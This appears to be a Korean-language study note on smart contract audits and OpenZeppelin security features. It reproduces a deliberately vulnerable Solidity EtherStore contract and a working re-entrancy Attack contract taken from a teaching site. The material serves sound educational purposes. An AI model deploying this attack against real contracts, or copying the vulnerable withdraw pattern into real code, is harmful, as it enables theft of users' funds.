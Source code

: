# 컨트렉트 보안과 Audit(보안감사)
컨트렉트의 경우 실제 서비스에 런칭하기 전에 보안 전문 업체에게 오딧(보안감사)를 받게 된다.
보안감사의 경우에는 컨트렉트의 취약점을 분석한 후에 컨트렉트의 안정성에 문제가 없는지 여부를 검토하는 작업이다.
보안감사의 경우에는 취약한 정도에 따라서 레벨을 나누어서 응답을 하며
심각한 보안 사항의 경우는 거의 해결하는 편이지만 권고사항이나 가벼운 사항 중
중앙화 이슈와 같은 부분은 그냥 수정 없이 서비스를 오픈하는 편이기도 하다.

실무에서 서비스를 런칭할 때 주로 보안감사를 받는 기간을 염두해 두어야 하기 때문에 오딧 기간만큼 시간을 더 산정해야 한다.

주로 1~2주 정도의 기간이 보안감사에 걸리며 2주이상 걸리는 경우도 많다.
보안 감사를 받을 경우에는 해당 내용에 따라서 컨트렉트를 수정하고 다시 감사를 받아서 문제점이 해결되면 그때 코드를 다시 런칭한다.

다만 여기서 문제는 컨트렉트의 테스트를 보안감사업체가 해주는 것이 아니며 보안적인 취약점만 체크해주기 때문에 컨트렉트의 테스트는 직접 테스트 코드를 짜서 해야 한다.

보안감사는 컨트렉트 코드들이 정상 작동한다는 가정 하에 취약점을 분석해주는 것이며 따로 테스트 코드를 짜주는 과정도 있지 않기 때문에 정말 참고사항으로서만 두어야 하며 보안 감사를 받더라도 취약점이 발견되는 경우가 많기 때문에 테스트 코드를 소홀히 해서는 안된다.

# Openzepplin Security
https://github.com/OpenZeppelin/openzeppelin-contracts/tree/master/contracts/security

1.Pause & Unpause

컨트렉트 자체를 비활성화 시키고 활성화 시키는 부분

아래 함수들을 상속받은 pause와 unpause를 자체적으로 구현하여 활용한다.
```
    /**
     * @dev Triggers stopped state.
     *
     * Requirements:
     *
     * - The contract must not be paused.
     */
    function _pause() internal virtual whenNotPaused {
        _paused = true;
        emit Paused(_msgSender());
    }

    /**
     * @dev Returns to normal state.
     *
     * Requirements:
     *
     * - The contract must be paused.
     */
    function _unpause() internal virtual whenPaused {
        _paused = false;
        emit Unpaused(_msgSender());
    }
```

함수를 실행시키면 bool 값이 바뀌게 되고 bool값에 변동이 있을 시에 비활성화/ 활성화가 바뀌는 구조이다.
문제가 생길 경우 일시적으로 멈추도록 만드는 함수로 보안이 중요한 컨트렉트 및 함수에 넣게 되는데
최초 상호작용하는 하나의 함수에만 넣게되면 하위로 호출되는 함수에는 굳이 넣을 필요는 없다.

2. Re-enterancy

함수의 최종 결과가 리턴되기 전에 다시 한번 호출을 하는 부분으로서
외부 호출이 일어나는 경우 발생이 가능하다.

아래 소스 코드를 통해서 reEntrancyTest는 openzepplin의 reentrant guard를 적용하지 않은 부분이며
reEntracyTest2는 openzepplin의 reentrant guard를 적용한 부분이다.

해당 테스트를 통해서 리앤터런시 공격이 성공한것과 실패한 것을 볼 수 있는데

Attack 컨트렉트를 보면 deposit을 하자마자 바로 wihdraw를 하는 것을 볼 수 있으며
withdraw를 실행할때 지갑 주소로 이더를 주고 잔고 전송을 하게 되는데 이더를 주는 과정에서
fallback이 호출되게 되면 여기서 withdraw를 한번 더 실행한다.

따라서 1이더의 잔고까지 남았을 경우까지 fallback에서 withdraw가 진행되게 되므로 공격이 가능해지는 샘이다.

Source : https://solidity-by-example.org/hacks/re-entrancy/

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

테스트
```
npx hardhat test
```